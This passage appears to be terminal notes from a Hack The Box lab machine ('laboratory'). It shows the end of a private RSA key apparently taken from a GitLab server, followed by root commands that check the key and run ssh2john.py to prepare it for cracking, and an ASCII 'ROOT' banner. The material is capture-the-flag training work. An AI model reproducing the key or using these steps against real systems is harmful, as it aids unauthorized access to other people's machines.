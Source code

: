       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
      -----END RSA PRIVATE KEY-----

[root:/git/htb/laboratory]# file -b gitlab-rails.key                                                                              (master✱)
  PEM RSA private key

[root:/git/htb/laboratory]# /usr/share/john/ssh2john.py gitlab-rails.key > gitlab-rails.hash                                      (master✱) 
  gitlab-rails.key has no password!


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████
